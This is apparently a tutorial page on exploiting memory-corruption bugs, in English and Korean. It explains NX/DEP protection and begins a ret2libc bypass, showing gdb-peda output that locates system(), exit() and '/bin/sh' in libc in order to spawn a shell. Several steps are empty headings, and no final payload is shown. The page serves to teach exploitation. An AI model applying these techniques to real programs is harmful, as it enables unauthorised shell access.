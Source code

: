 # NX
Also known as Data Execution Prevention (DEP), this protection marks writable regions of memory as non-executable. This prevents the processor from executing in these marked regions of memory.

If we look at the memory map of a program compiled with NX protection, the stack and heap are typically marked non-executable.

In the following diagrams, we will be introducing a new indicator colour for the memory regions to denote 'writable and non-executable' mapped regions. Firstly, the stack before the read occurs looks like this:

When we perform the same attack, the buffer is overrun and the saved pointers are overwritten once again.

After the function returns, the program will set the instruction pointer to 0xbfff0000 and attempt to execute the instructions at that address. However, since the region of memory mapped at that address has no execution permissions, the program will crash.

Thus, the attacker's exploit is thwarted.

# Bypassing NX with Ret2Libc


![Fig 1. stack][classic1]

## 버퍼의 크기
## return address 위치 찾기
## system() 의 주소
```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e51b40 <__libc_system>

gdb-peda$ x/s 0xb7e51b40
0xb7e51b40 <__libc_system>:	"\203\354\f\213D$\020\350\061h\016"
```
## exit() 주소
system() 함수가 return되고 난 후 jump할 위치를 지정해야 한다.
사실 system("/bin/sh")가 호출되는 순간 이미 exploit에 성공했으므로 이 부분은 적당히 Fake 값으로 대충 "AAAA" 로 채워넣어도 무방하다.
하지만 차이점이 있다면 쉘 획득 후 작업을 종료하고 나갈 때 Error가 발생한다.
이 부분까지 깔끔하게 처리하고 싶다면 exit()의 주소를 찾은 후 이것을 호출하게 하면 마치 정상적으로 종료되는 것처럼 보이게 할 수 있다.
```
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e457f0 <__GI_exit>

gdb-peda$ x/s 0xb7e457f0
0xb7e457f0 <__GI_exit>:	"\350\204+\017"
```
이렇게 얻은 exit()의 주소는 `0xb7e457f0`이다.

## /bin/sh
system()의 인자로 전달할 브레이크 포인트 걸어놓고 실행한 상태에서
```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f748c8 ("/bin/sh")
```



[classic1]: ./nxstack_view.png
